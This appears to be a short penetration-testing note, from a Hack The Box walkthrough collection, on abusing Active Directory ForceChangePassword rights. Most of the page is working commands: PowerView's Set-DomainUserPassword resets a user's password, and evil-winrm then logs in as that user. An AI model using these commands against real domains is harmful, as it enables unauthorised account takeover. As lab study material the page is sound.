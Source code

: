 ### ForceChangePassword

* GenericWrite
*   Allows an attacker to change the password of the object in question.

    * HTB Example: _**Object**_
      * Requires: PowerView.ps1
      * Be sure to upload PowerView.ps1

    How-To:

    ```python
    # On PowerShell or Windows shell:

    . .\\PowerView.ps1

    $newpass = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force

    Set-DomainUserPassword -Identity smith -AccountPassword $newpass

    # On Kali:

    evil-winrm <IP> -u smith -p Password1234!
    ```

    ForceChangePassword

Example:

<figure><img src="../../.gitbook/assets/Capture (3).PNG" alt=""><figcaption></figcaption></figure>

